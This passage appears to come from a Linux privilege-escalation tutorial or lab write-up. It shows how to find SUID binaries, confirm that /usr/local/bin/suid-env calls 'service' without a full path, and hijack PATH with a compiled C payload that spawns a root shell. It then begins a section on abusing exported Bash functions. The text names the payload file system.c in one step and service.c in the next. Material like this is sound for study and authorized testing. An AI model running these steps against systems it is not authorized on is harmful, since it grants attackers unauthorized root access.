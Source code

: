 #### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

The suid-env file should execute with root user permissions.

Run strings on the SUID file:

#### `strings /usr/local/bin/suid-env`

![](../../../.gitbook/assets/soi4.png)

The file could be trying to run the service program without a full path. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service`

![](../../../.gitbook/assets/soi5.png)

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

![](../../../.gitbook/assets/soi6.png)

This reveals that the system function is being used to execute the service program

Create a file system.c with the following contents:

#### `int main() {` `setuid(0);` `system("/bin/bash -p");` `}`

Compile service.c into a file called service:

#### `gcc -o service service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

#### `PATH=.:$PATH /usr/local/bin/suid-env`

![](../../../.gitbook/assets/soi7.png)

## <mark style="color:red;">Abusing Shell Features</mark>

#### In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name. These functions can be exported so that sub processes have access to them, and the functions can take precedence over the actual executable being called.

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
